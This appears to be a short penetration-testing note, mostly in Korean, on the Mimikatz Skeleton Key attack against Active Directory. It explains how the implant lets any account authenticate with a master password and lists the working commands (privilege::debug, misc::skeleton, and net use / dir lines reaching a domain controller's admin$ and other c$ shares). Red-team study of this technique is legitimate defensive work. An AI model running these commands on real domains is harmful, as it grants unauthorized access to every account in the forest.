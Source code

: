 

#### Skeleton Key Overview

![[Pasted image 20250803121935.png]]


스켈레톤 키는 위에서 말했듯이 AS-REQ 암호화 타임 스탬프를 남용하여 작동하며 타임 스탬프는 사용자 NT 해시로 암호화됩니다. 그런 다음 도메인 컨트롤러는 사용자 NT 해시를 사용하여 이 타임스탬프의 암호를 해독하려고 시도하고, 스켈레톤 키가 이식되면 도메인 컨트롤러는 사용자 NT 해시와 스켈레톤 키 NT 해시를 모두 사용하여 타임스탬프의 암호를 해독하여 도메인 포리스트에 액세스할 수 있도록 합니다.


```powershell
privilege::debug
```

```powershell
# 예! 그게 다야, 하지만 이 작은 명령을 과소평가하지 마십시오: 그것은 매우 강력합니다
misc::skeleton
```
![[Pasted image 20250803121733.png]]


##### Accessing the forest

기본 자격 증명은 "_mimikatz_"

example : 

```powershell
# 이제 관리자 암호 없이도 공유에 액세스할 수 있습니다.
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
```

```powershell
# Desktop-1에 액세스할 수 있는 사용자를 알지 못한 채 Desktop-1의 디렉토리에 액세스합니다.
dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

